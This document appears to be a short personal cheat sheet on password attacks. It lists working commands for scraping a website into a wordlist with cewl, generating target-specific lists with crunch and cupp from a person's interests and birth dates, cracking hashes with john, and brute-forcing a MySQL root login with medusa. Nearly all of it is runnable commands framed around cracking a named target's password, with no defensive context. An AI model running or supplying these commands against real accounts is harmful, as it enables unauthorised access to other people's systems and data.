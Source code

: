# Creat Passwords

# Cewl

A smarter and more efficient approach would be to only harvest the words longer than the typical company password policy, usually eight characters at a minimum. We can accomplish this by using ceWL’s minimum word length option or –m followed by 8. In addition, we can determine the depth of the spidering (how many subdirectories deep to look). This number will depend upon the site, but I think a depth of four subdirectories is sufficient and efficient at capturing most of the keywords

```c
cewl –url <the URL you want to scrape>
cewl –d 4 –m 8 https://www.hackers-arise.com –w cewlpasswords
john –wordlist=/root/cewlpasswords –rules passwordhashes

```

# Crunch

Let’s say we know that the target is a Bob Dylan fan. They might use that name and then append it with four numbers (maybe their birth date). We could create such a list in crunch by entering;

```c
crunch 9 9 -t dylan%%%% -o customwordlist.txt

```

When we hit enter, crunch first calculates how large the file will become before creating it (those of you who are Mr. Robot fans ([www.hackers-arise.com/mr-robot](http://www.hackers-arise.com/mr-robot)) will likely recognize that Elliot cracked his therapist’s password in Season 1 using a similar technique). In this case, crunch estimates it will be 100,000 bytes.

```c
crunch 13 13 –t @@@@dylan%%%% -o customwordlist.txt
```

# Cupp

- Install
    
    `git clone https://github.com/Mebus/cupp`
    
    `cd cupp`
    
    `./cupp.py`
    
    `./cupp -i`
    

# Medusa

`medusa -h`

`medusa -d` 

`medusa –h 192.168.0.114 –u root –P /root/top10000passwords –M mysql`